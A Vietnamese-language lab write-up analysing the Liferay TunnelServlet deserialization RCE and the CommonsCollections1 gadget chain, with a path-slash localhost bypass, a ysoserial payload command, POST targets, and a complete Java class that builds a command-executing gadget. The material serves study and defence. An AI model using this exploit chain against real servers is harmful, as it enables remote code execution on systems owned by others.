 # 🔍 Phân Tích Lỗ Hổng Liferay TunnelServlet Deserialization RCE & Gadget CommonsCollections1

## 📌 Mục tiêu
- Phân tích chi tiết lỗ hổng `unsafe deserialization` trên Liferay thông qua endpoint `/api/liferay` và `/api/spring`.
- Tìm hiểu cách hoạt động của gadget `CommonsCollections1` khi bị deserialized.
- Viết PoC khai thác lỗ hổng và tự tạo gadget để thực thi mã từ xa.

---

## 🧪 PHẦN 1: Phân Tích Lỗ Hổng Unsafe Deserialization Trên Liferay

### 1.1 Dựng môi trường test
- Tải và cài đặt **Liferay Portal 6.2 CE GA1** (hoặc phiên bản bị ảnh hưởng cụ thể được ghi nhận trong CVE).
- Môi trường:
  - Hệ điều hành: Ubuntu/Debian hoặc Windows đều được.
  - Java 7/8 (tùy phiên bản Liferay yêu cầu).
  - Tomcat (đi kèm với bản cài đặt Liferay).

### 1.2 Cài đặt môi trường debug
- IDE: **IntelliJ IDEA** hoặc **Eclipse**
- Import mã nguồn Liferay (có thể dùng mã nguồn từ GitHub hoặc build lại từ Liferay SDK).
- Cấu hình remote debugger:
  ```bash
  JAVA_OPTS="$JAVA_OPTS -agentlib:jdwp=transport=dt_socket,address=8000,server=y,suspend=n"
  ```
  Sau đó kết nối debugger từ IDE để phân tích luồng xử lý yêu cầu `/api/*`.

### 1.3 Đọc mô tả lỗi và debug
- Mô tả lỗi: https://www.acunetix.com/vulnerabilities/web/liferay-tunnelservlet-deserialization-remote-code-execution/
- Endpoint `/api/jsonws/invoke` (TunnelServlet) thực hiện deserialize dữ liệu đầu vào (`ObjectInputStream`) mà không kiểm tra lớp đối tượng.
- Debug vào các class như:
  - `com.liferay.portal.servlet.TunnelServlet`
  - `com.liferay.portal.security.auth.HttpAuthManagerImpl`
  - `ObjectInputStream` xử lý đầu vào từ request body.

### 1.4 Bypass Localhost Restriction
- Các endpoint `/api/liferay` và `/api/spring` mặc định chỉ cho phép từ `localhost`.
- Một số phiên bản cũ có thể bị bypass bằng chuỗi như:
  ```
  /api////liferay
  /api///spring
  ```
- Phân tích: Filter URL normalization (`getRequestURI()`) không xử lý chính xác các dấu `/` hoặc `;`, dẫn đến kiểm tra IP bị bỏ qua. Debug để theo dõi `request.getRemoteAddr()` và `request.getRequestURI()`.

### 1.5 Viết mã khai thác (Exploit)
- Sử dụng **ysoserial** để tạo gadget payload với `CommonsCollections1`:
  ```bash
  java -jar ysoserial.jar CommonsCollections1 "touch /tmp/pwned" > payload.ser
  ```
- Dùng Python hoặc curl để gửi request POST đến:
  ```
  http://target:8080/api/liferay
  http://target:8080/api////spring
  ```
- Header cần có:
  ```
  Content-Type: application/x-java-serialized-object
  ```
- Debug để xác nhận lệnh đã được thực thi.

### 1.6 Liferay đã fix như thế nào?
- Chặn các chuỗi `/api/*` từ IP ngoài `localhost`.
- Kiểm tra lại đường dẫn thực tế sau chuẩn hóa URI.
- Kiểm tra loại object được deserialize bằng allowlist.
- Tắt hoàn toàn TunnelServlet trong cấu hình nếu không sử dụng.

---

## 🔬 PHẦN 2: Phân Tích Gadget CommonsCollections1

### 2.1 Dựng môi trường test
- Tạo project Maven:
  ```bash
  mvn archetype:generate -DgroupId=com.example -DartifactId=cc1-test -DarchetypeArtifactId=maven-archetype-quickstart
  ```
- Thêm dependency:
  ```xml
  <dependency>
    <groupId>commons-collections</groupId>
    <artifactId>commons-collections</artifactId>
    <version>3.1</version>
  </dependency>
  ```
- Viết chương trình đọc file `payload_cc1.bin` và deserialize:
  ```java
  ObjectInputStream in = new ObjectInputStream(new FileInputStream("payload_cc1.bin"));
  in.readObject();
  ```

### 2.2 Phân tích luồng thực thi gadget
- Gadget chain:
  ```
  AnnotationInvocationHandler
    -> LazyMap
      -> ChainedTransformer
        -> InvokerTransformer
  ```
- Quá trình:
  1. `AnnotationInvocationHandler` gọi `toString()`/`equals()` trên map.
  2. `LazyMap` gọi `transform()`.
  3. `ChainedTransformer` gọi nhiều `InvokerTransformer`.
  4. Thực thi lệnh hệ thống thông qua `Runtime.getRuntime().exec()`.

### 2.3 Tự viết lại class tạo gadget
- Viết lại class Java mô phỏng ysoserial:
  ```java
package com.example;  
  
import org.apache.commons.collections.Transformer;  
import org.apache.commons.collections.functors.ChainedTransformer;  
import org.apache.commons.collections.functors.ConstantTransformer;  
import org.apache.commons.collections.functors.InvokerTransformer;  
import org.apache.commons.collections.map.LazyMap;  
  
import java.io.*;  
import java.lang.reflect.Constructor;  
import java.lang.reflect.InvocationHandler;  
import java.lang.reflect.InvocationTargetException;  
import java.lang.reflect.Proxy;  
import java.util.HashMap;  
import java.util.Map;  
  
public class CommonsCollections1 {  
    public static void main(String... args) throws ClassNotFoundException, IllegalAccessException, InvocationTargetException, InstantiationException, IOException {  
        // Command  
        String[] execArgs = {"calc.exe"};  
  
        // Create a ChainTransformer to invoke that command.  
        final Transformer[] transformers = new Transformer[] {  
                new ConstantTransformer(Runtime.class),  
                new InvokerTransformer("getMethod", new Class[] {  
                        String.class, Class[].class }, new Object[] {  
                        "getRuntime", new Class[0] }),  
                new InvokerTransformer("invoke", new Class[] {  
                        Object.class, Object[].class }, new Object[] {  
                        null, new Object[0] }),  
                new InvokerTransformer("exec",  
                        new Class[] { String.class }, execArgs),  
                new ConstantTransformer(1) };  
  
        ChainedTransformer chainedTransformer = new ChainedTransformer(transformers);  
  
        // Create a LazyMap  
        Map map = new HashMap<>();  
        Map lazyMap = LazyMap.decorate(map, chainedTransformer);  
  
        // Init a `sun.reflect.annotation.AnnotationInvocationHandler` object  
        Class cls = Class.forName("sun.reflect.annotation.AnnotationInvocationHandler");  
        final Constructor<?> constructor = cls.getDeclaredConstructors()[0];  
        constructor.setAccessible(true);  
        InvocationHandler lazyMapInvocationHandler = (InvocationHandler) constructor.newInstance(Override.class, lazyMap);  
        Map evilProxy = (Map) Proxy.newProxyInstance(CommonsCollections1.class.getClassLoader(), new Class[]{Map.class}, lazyMapInvocationHandler);  
  
        InvocationHandler serializedProxyInvocationHandler = (InvocationHandler) constructor.newInstance(Override.class, evilProxy);  
  
        serialize(serializedProxyInvocationHandler);  
    }  
  
    public static void serialize(Object object) throws IOException {  
        FileOutputStream fileOut = new FileOutputStream("payload_cc1.bin");  
        ObjectOutputStream out = new ObjectOutputStream(fileOut);  
        out.writeObject(object);  
        out.close();  
        fileOut.close();  
    }  
}
  ```
- Test với chương trình deserialize ở bước 2.1 và kiểm tra kết quả.

---

## ✅ Kết luận
- Lỗ hổng `unsafe deserialization` cực kỳ nghiêm trọng nếu kết hợp với gadget nguy hiểm như `CommonsCollections1`.
- Liferay TunnelServlet là điểm tấn công rõ ràng nếu endpoint không được bảo vệ đúng cách.
- Việc phân tích và viết lại gadget giúp hiểu rõ nội tại lỗ hổng, tăng khả năng phòng thủ và phát hiện.

---

## 📚 Tài liệu tham khảo
- https://www.acunetix.com/vulnerabilities/web/liferay-tunnelservlet-deserialization-remote-code-execution/
- https://github.com/frohoff/ysoserial
- https://portswigger.net/web-security/deserialization
- https://owasp.org/www-community/vulnerabilities/Deserialization_of_untrusted_data
